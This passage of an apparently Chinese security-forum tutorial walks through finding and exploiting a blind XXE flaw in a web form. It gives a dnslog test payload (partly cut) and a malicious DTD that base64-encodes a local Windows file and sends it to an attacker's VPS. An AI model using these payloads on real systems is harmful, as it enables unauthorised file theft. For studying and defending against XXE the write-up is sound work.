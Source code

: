 这样再进行判断是否能输出解析的X ML语句，如下页面中就看到不了hi了

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1320a0f1c583f1aca69da08492f63fb682ae0856.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1320a0f1c583f1aca69da08492f63fb682ae0856.png)

原本没修改源码前是可以看到的

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f74f987a7c1dfa9b41e2e4371bc1170e8f626b8d.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f74f987a7c1dfa9b41e2e4371bc1170e8f626b8d.png)

2.漏洞验证

在输入框中提交dnslog测试的语句

```X
<?X ML version="1.0" encoding="gb2312"?>

]>
<reset><login>&xi;</login><secret>Any bugs?</secret></reset>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-23d9f27c4f862cad825269e32778b795854ac8e4.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-23d9f27c4f862cad825269e32778b795854ac8e4.png)

然后去dnslog平台上查看，看到接收到了信息，说明漏洞真的存在

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-750ec8e968e30b98023dd1b81249338ef7cc0a3f.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-750ec8e968e30b98023dd1b81249338ef7cc0a3f.png)

3.文件读取

这里需要一个VPS，VPS中放入一个DTD的文件，并在该文件所在目录开启一个web服务，我这里用的是python开启的

a.dtd文件内如下:

```X
<!ENTITY % file SYSTEM "php://filter/read=convert.b ase64-encode/resource=file:///c:/windows/blind.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://vps的ip:6666/%file;'>">
```

这段代码的意思是：实体int为`http://vps的ip:6666/`，实体file为`file:///c:/windows/blind.txt`（经过b ase64编码），总体的意思就是访问vps的6666端口并携带本机的c:/windows/blind.txt的文件。

python开启web服务，监听11111端口

`python -m http.server 11111`

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e87a89b8e3385b5b7c511715a70bf07d866fe0ce.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e87a89b8e3385b5b7c511715a70bf07d866fe0ce.png)

这样就可以通过本机去访问这个web服务

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6d6e80c3d2d21d974acb1644b5219c5012f327ae.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6d6e80c3d2d21d974acb1644b5219c5012f327ae.png)
